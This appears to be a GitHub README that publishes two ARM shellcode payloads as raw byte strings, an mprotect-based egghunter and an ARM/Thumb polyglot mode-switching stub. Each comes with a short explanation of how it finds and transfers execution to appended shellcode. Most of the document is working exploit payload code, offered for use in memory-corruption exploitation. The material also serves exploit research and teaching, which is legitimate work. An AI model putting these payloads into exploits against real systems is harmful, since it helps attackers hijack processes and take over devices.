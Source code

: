 ARM Shellcode
=============

1. mprotect egghunter

- Searches for an EGG (4+4 byte value) in the memory of the exploited process.
- Uses mprotect() to test the presence of pages in the virtual memory space of the target process.
- mprotect() also marks pages RWX as it scans the virtual memory space.
- Upon finding the pre-defined EGG occuring at consecutive locations, the mprotect egghunter passes on the execution control to the shellcode appended to the eggs.

RAW SHELLCODE:
```
$mprotect_egghunter = "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x6d\x40\x7d\x27\x01\x21\x09\x03\x07\x22\x28\x1c\x01\xdf\x0c\x30\x01\xd1\x6d\x18\xf9\xe7\x6e\x18\x05\x48\x2b\x68\x04\x35\xb5\x42\xf3\xd0\x2c\x68\x98\x42\xf8\xd1\xa3\x42\xf6\xd1\x04\x35\x28\x47HACK";
```

2. Quantum Leap code

- ARM/Thumb Polyglot code.
- Can be started in ARM mode or Thumb mode.
- Irrespective of the mode it is started in, the Quantum Leap code will switch the CPU to Thumb mode and proceed to execute any Thumb shellcode appended to it.

RAW SHELLCODE:
```
$quantum_leap_stub = "\x19\xa0\x8f\x22\x15\xa0\x8f\x32\x0d\x40\xa0\x21\x0d\x40\xa0\x31\x12\x04\x2d\x29\x12\x04\x2d\x39\x02\xa0\xbd\x28\x02\xa0\xbd\x38";
```

For more details please browse through my presentation titled "Make ARM Shellcode Great Again" at https://www.slideshare.net/saumilshah/make-arm-shellcode-great-again

@therealsaumil

